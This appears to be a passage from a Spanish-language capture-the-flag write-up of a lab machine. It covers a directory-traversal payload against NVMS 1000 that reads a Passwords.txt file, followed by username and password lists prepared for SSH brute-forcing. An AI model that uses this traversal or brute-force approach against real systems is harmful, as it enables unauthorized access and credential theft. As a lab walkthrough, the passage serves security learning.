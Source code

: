 ## Exploit NVMS 1000

Revisando la página web podemos ver que es un **NVMS 1000**.

`http://10.10.10.184/Pages/login.htm`

![2](images/2.png)

Investigando sobre la aplicación nos encontramos con un [exploit](https://www.exploit-db.com/exploits/47774) que permite **Directory Traversal** el cual nos puede ayudar para leer el archivo **Passwords.txt** antes mencionado.

`/../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt`

![3](images/3.png)

Utilizaremos esa lista de password para hacer fuerza bruta al servicio SSH que corre en el puerto 22.

##### users.txt
```
Nadine
Nathan
```

##### password.txt
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
